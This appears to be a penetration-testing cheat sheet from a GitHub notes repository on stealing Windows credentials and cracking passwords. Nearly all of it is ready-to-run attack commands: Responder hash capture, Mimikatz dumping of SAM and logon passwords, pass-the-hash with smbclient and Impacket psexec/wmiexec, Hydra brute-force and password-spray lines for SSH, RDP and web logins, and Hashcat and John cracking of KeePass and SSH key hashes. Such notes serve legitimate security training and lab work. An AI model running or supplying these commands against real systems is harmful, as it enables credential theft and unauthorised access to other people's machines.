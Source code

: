 ## Getting passwords/hashes on Windows 

### Responder  

Initialize responder on an interface
```
sudo responder -I eth0
```

Force a connection to a UNC share at the IP address where responder is listening  
```
\\192.168.1.10\share
```


### Mimikatz  

Run mimikatz as an admin  
```
PS> .\mimikatz.exe
```  

Enable SeDebugPrivilege  
```
privilege::debug
```

Obtain SYSTEM privs  
```
token::elevate
```  

Dump hashes fromthe SAM database  
```
lsadump::sam 
```  

Get passwords/hashes from multiple places  
```
sekurlsa::logonpasswords
```

## Passing the hash  

SMBClient  
```
smbclient \\\\10.10.10.42\\share -U Administrator --pw-nt-hash 9a48310ea6f5fdfee955abed1762964b
```  

Impacket-psexec (executes as SYSTEM)
```
impacket-psexec -hashes 00000000000000000000000000000000:9a48310ea6f5fdfee955abed1762964b Administrator@10.10.10.42
```  

Impacket-wmiexec (executes as user)  
```
impacket-wmiexec -hashes 00000000000000000000000000000000:9a48310ea6f5fdfee955abed1762964b Administrator@10.10.10.42
```

## Commands/Tools to guess passwords against network services  

### Hydra  

SSH wordlist attack 
``` 
hydra -l myuser -P password.list -s 2222 ssh://10.10.10.43
```

RDP password spray
``` 
hydra -L username.list -p "myPassword123" rdp://10.10.10.43
```

HTTP wordlist attack
```
hydra -l myuser -P password.list 10.10.10.43 http-post-form "/login:user_param=user&password_param=^PASS^:Failure Message"
```

## Password cracking

### Hashcat

Useful blog posts that I had written:  
* https://web.archive.org/web/20210615060624/https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/  
* https://web.archive.org/web/20210615064601/https://laconicwolf.com/2019/03/29/hashcat-tutorial-rule-writing/

Finding hash mode  
```
hashcat --help | grep -i "hashtype"
```  

#### Example commands  

Cracking a keepass database hash with a wordlist and rules  
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

### John-the-Ripper and Hashcat 

Adding Hashcat rules to JTR  
```
sudo nano /etc/john/john.conf

# Append to end of file
[List.Rules:myCustomRules]
c $1 $2 $3 $!
c $1 $2 $3 $@
c $1 $2 $3 $#
```

Using JTR to format hashes  
```ssh2john ../Downloads/id_rsa > ssh.hash```  
There are many hash conversion scripts  
```
$ locate *2john 
/usr/bin/1password2john
/usr/bin/7z2john
/usr/bin/DPAPImk2john
...
```

### John-the-Ripper  
```
john --wordlist=ssh.passwords --rules=myCustomRules ssh.hash
```

